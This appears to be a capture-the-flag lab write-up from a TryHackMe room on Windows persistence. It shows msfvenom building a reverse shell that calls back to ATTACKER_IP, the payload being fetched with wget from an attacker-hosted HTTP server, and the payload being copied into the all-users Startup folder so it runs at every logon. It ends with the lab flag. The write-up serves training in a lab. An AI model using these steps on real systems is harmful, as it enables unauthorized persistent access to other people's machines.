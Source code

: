 Each user has a folder under`C:\Users\<your_username>\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup` where you can put executables to be run whenever the user logs in. An attacker can achieve persistence just by dropping a payload in there. Notice that each user will only run whatever is available in their folder.

If we want to force all users to run a payload while logging in, we can use the folder under`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` in the same way.

For this task, let's generate a reverse shell payload using msfvenom:


```shell-session
user@AttackBox$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=4450 -f exe -o revshell.exe
```

We will then copy our payload into the victim machine. You can spawn an`http.server` with Python3 and use wget on the victim machine to pull your file:

| | | |
| ---------------------------------------------------------------------------------------------------------------------------------------------------- | --- | -------------------------------------------------------------------------------------------------------------- |
| AttackBox<br><br>```shell-session<br>user@AttackBox$ python3 -m http.server <br>Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ... <br>``` | âžœ | Powershell<br><br>```shell-session<br>PS C:\> wget http://ATTACKER_IP:8000/revshell.exe -O revshell.exe<br>``` |

We then store the payload into the`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp` folder to get a shell back for any user logging into the machine.

```shell-session
C:\> copy revshell.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\"
```

Now be sure to sign out of your session from the start menu (closing the RDP window is not enough as it leaves your session open):

![sign out](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/f0ba7fd44646d55c5505737642bdd96e.png)

And log back via RDP. You should immediately receive a connection back to your attacker's machine.

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

Use your newly obtained shell to execute`C:\flags\flag10.exe` and get your flag!


Once we follow all steps, we get a shell:

![Pasted image 20250515172104.png](../../../IMAGES/Pasted%20image%2020250515172104.png)

```
C:\flags>.\flag10.exe

THM{NO_NO_AFTER_YOU}
```
